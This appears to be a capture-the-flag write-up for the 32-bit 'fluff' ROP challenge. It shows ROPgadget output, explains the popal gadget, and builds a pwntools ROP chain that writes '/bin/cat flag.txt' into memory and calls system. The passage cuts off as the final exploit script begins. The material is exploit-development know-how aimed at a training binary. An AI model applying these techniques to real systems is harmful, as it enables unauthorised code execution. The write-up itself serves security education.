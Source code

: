 ```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: fluff32
0x0804867d: pop ebp; mov edi, 0xdeadbabe; ret; 
0x0804868b: pop ebp; mov edx, 0xdefaced0; ret; 
0x08048695: pop ebp; pop ebx; xor byte ptr [ecx], bl; ret; 
0x080486fb: pop ebp; ret; 
0x080486f8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x08048696: pop ebx; xor byte ptr [ecx], bl; ret; 
0x080483e1: pop ebx; ret; 
0x08048692: pop edi; mov dword ptr [ecx], edx; pop ebp; pop ebx; xor byte ptr [ecx], bl; ret; 
0x080486fa: pop edi; pop ebp; ret; 
0x08048670: pop edi; xor edx, edx; pop esi; mov ebp, 0xcafebabe; ret; 
0x08048673: pop esi; mov ebp, 0xcafebabe; ret; 
0x080486f9: pop esi; pop edi; pop ebp; ret; 
0x0804867a: pop esi; xor edx, ebx; pop ebp; mov edi, 0xdeadbabe; ret; 
0x080485f3: popal; cld; ret;
```
`0x080485f3: popal; cld; ret;` should work.
`popal` "pops" values from the stack into all registers in the order `EDI`, `ESI`, `EBP`, `EBX`, `EDX`, `ECX`, and `EAX`.

## Designing a ropchain
Now that I have every piece I can design a ropchain.
First we need to pop `/bin` into `edx` and the address to write into `ecx`.
Then we need to call the `mov dword ptr [ecx], edx` gadget.
And repeat this until we have written `/bin/cat flag.txt`.
So I came up with this code:
```python
from pwn import *

padding = 'A'*44
data_addr = 0x0804a028
popal = p32(0x080485f3)
mov_ecx = p32(0x08048693) #mov dword ptr [ecx], edx; pop ebp; pop ebx; xor byte ptr [ecx], bl; ret;                                                                                    
usefulFunction = p32(0x804864c)
pwnme = p32(0x80485f6)
system = p32(0x8048430)

def write(string,offset=0):
    write_chain = popal
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += string
    write_chain += p32(data_addr+offset)
    write_chain += p32(0x0)
    write_chain += mov_ecx
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    return write_chain
```
I decided to make the exploit script more efficient by making a function for making using the same ropchain multiple times.
After a bit of testing later I came up with the final exploit:
```python
from pwn import *
```